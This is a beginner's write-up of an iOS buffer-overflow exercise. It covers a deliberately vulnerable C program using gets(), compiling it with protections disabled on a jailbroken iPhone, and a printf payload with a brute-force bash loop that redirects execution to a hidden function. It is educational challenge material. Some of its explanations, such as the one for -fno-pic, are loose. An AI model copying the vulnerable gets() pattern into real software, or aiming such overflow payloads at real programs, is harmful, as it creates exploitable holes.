 # iOS Buffer Overflow attack

This program is the start of my journey. I always loved jailbreaking since I was young but I disliked programming (given by the D- I received in AP Computer science). It wasnt until university until I knew that I wanted to do things revolving around iOS. 

Eventually I switched my major to computer science and got into iOS development and it wasn't until recently I got into exploitation and the nitty gritty of iOS internals. This is the beginning of my journey and I hope you tear it apart because I will probably learn from it.

Im also doing this in VIM because I want to learn it so godspeed.

The challenges in these writeups are from [Billy Ellis](https://github.com/Billy-Ellis/Exploit-Challenges). Although Im going through his book at the time these may be different than the ones he has uploaded on github.

## The program
------
```
#include <stdio.h>
#include <stdlib.h>

void secret() {
    printf("You found the secret! Buffer overflow challenge completed!i\n");	
}
int main( int argc, char *argv[]) {
    char buff[8];
    printf("Enter a string: \n");
    gets(buff);
    printf("You entered: %s\n", buff);
	return 0;
}
```

Lets walk through this step by step. At the top is the header, `<stdio.h>` imports the standard input and output header, hence the "stdio" name. After that is the function named secret which prints out a statement that you've completed the challenge, more on that later.

After this is the main() function. This contains a character buffer that is meant to store your input, specifically, 8 characters. After this statement is a printf asking for your input and then a gets(). This is where the vulnerability lies.

gets() takes yours input and tries to stuff it inside of a 8 character array. Since gets doesn't do any checks on whether your input will actually fit inside or not, it's prone to buffer overflows. 

The point of a buffer overflow attack is to give enough input so that you can **overwrite** the link register aka the _return address_ and effectively redirecting the control flow of the program to wherever you desire.
Usually the place you redirect to *bypasses* the security measures put in place by the program.

Now, I am doing this on an iPhone SE running 11.2.6 on the unc0ver jailbreak. So I am compiling the program on the device.

## The setup
------
Im going to need to compile the program.

`
clang buffer_overflow.c -isysroot $THEOS/sdks/iPhoneOS11.2.sdk/ -fno-stack-protector -fno-pic -o buffer_overflow
`

To compile, I use clang which can be downloaded through Cydia. The first argument is the program, then comes -isysroot which just defines the SDK used to compile the program and the path to it. I have theos installed on device with some SDKs so I use the ios11.2 SDK which is necessary to compile on iOS11. Finally come the arguments to make the program vulnerable.

The -fno-stack-protector argument stands for "force no stack protector", this tells the program to disable the stack smasher that prevents stack overflows from happening. These arguments are provided by Billy Ellis so I am adding them as well. -fno-pic stands for force no position independant code. This protects against buffer overflows by forcing the program to not have ASLR enabled. Address space layout randomization randomizes where executable are loaded into memory rather than keeping the addresses the same.

Although it doesn't completly remove ASLR it makes it more vulnerable (apparently).

**Definiton:** Address space layout randomization (ASLR) is a memory-protection process for operating systems (OSes) that guards against buffer-overflow attacks by randomizing the location where system executables are loaded into memory.
 
To make the executable run on the device it has to be signed. 

`
mobile@ven1xus-SE:~/programs/challenges$ ldid -e /bin/ls
`

```
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>platform-application</key>
	<true/>
	<key>com.apple.private.skip-library-validation</key>
	<true/>
</dict>
</plist>
mobile@ven1xus-SE:~/programs/challenges$ ldid -e /bin/ls > ent.plist
mobile@ven1xus-SE:~/programs/challenges$ ldid -Sent.plist buffer_overflow
```

The ldid command run prints out the entitlement used for signing the ls command. I can then take this entitlement and put it into a file that I can use to sign my own programs. Finally I sign buffer_overflow with the new entitlement.

It is required to sign executables on iOS devices because it is a security measure implemented by apple back in iOS 2 or something like that.


## Analysis
------

Now I have to analyze the binary, so I will use GDB (GNU Debugger) or send it over to my MacBook using scp. If you would rather do the latter so you can analyze it via Hopper or IDA then here is the scp command broken down.

`
tommy@ven1xus-mbp:~$ scp -P 2222 mobile@localhost:~/programs/challenges/buffer_overflow ~/Desktop/bufferOverflow/
`

Keep in mind that my phone is hooked up via USB so thats why scp -P 2222 is used. This command works as follows:

1. **scp -P 2222 mobile@localhost:** - This means to login as the user "mobile" at your computers port 2222 which my iPhone is hooked up to. Meaning to login to the iPhone

2. **~/programs/challenges/buffer_overflow** - This is the location of the buffer_overflow file I need to acquire.

3. **~/Desktop/bufferOverflow/** - This is the location I want to move it do on my MacBook.



So now that I have the executable where I want it, I analyze the executable.

`
mobile@ven1xus-SE:~/programs/challenges$ gdb buffer_overflow
`

and then disassemble the secret function so I can see where the start address of the function is.

```
(gdb) disas secret 
Dump of assembler code for function secret:
   0x0000000100007e7c <+0>:	sub	sp, sp, #0x20
   0x0000000100007e80 <+4>:	stp	x29, x30, [sp,#16]
   0x0000000100007e84 <+8>:	add	x29, sp, #0x10
   0x0000000100007e88 <+12>:	adrp	x0, 0x100007000
   0x0000000100007e8c <+16>:	add	x0, x0, #0xf58
   0x0000000100007e90 <+20>:	bl	0x100007f1c
   0x0000000100007e94 <+24>:	stur	w0, [x29,#-4]
   0x0000000100007e98 <+28>:	ldp	x29, x30, [sp,#16]
   0x0000000100007e9c <+32>:	add	sp, sp, #0x20
   0x0000000100007ea0 <+36>:	ret
End of assembler dump.
```

As you can see the memory address of the function is `0x0000000100007e7c`

## Exploit
------

To find the max amount  characters gets() can put into the buffer, I can stuff random series of characters into the string and check the crash logs or see when an illegal instruction is thrown. For me it was ~33 characters.

```
mobile@ven1xus-SE:~/programs/challenges$ printf " AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD" | ./buffer_overflow 
Enter a string: 
warning: this program uses gets(), which is unsafe.
You entered:  AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD
Illegal instruction: 4
```

From now on after the last D's I have to append the address of secret() so the link register can be over riden with its address. iOS is in [little endian format](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=1&cad=rja&uact=8&ved=2ahUKEwjUrva96-veAhWwoIMKHcdbDXYQtwIwAHoECAUQAQ&url=https%3A%2F%2Fwww.youtube.com%2Fwatch%3Fv%3DNcaiHcBvDR4&usg=AOvVaw3kCF3gxftrA8m5zSebv8aq) so I have to put the bytes at the end of that long string in reverse order

`
mobile@ven1xus-SE:~/programs/challenges$ printf " AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD\x7c\x7e\x00\x00\x01" | ./buffer_overflow 
`

The programm will still throw a segmentation fault, I'm going to have to write a script to run this command until the secret function address is at the address specified by GDB. I wrote the script in bash like so.

```
#!/bin/bash
for i in {1..100000}
do
        printf " AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD\x7c\x7e\x00\x00\x01" | ./buffer_overflow
done
```

Make sure you run the script inside of the directory where buffer_overflow is.

The script eventually prints the following: 

![Final output](complete.png)

**Congratulations I have done a buffer overflow on iOS!**

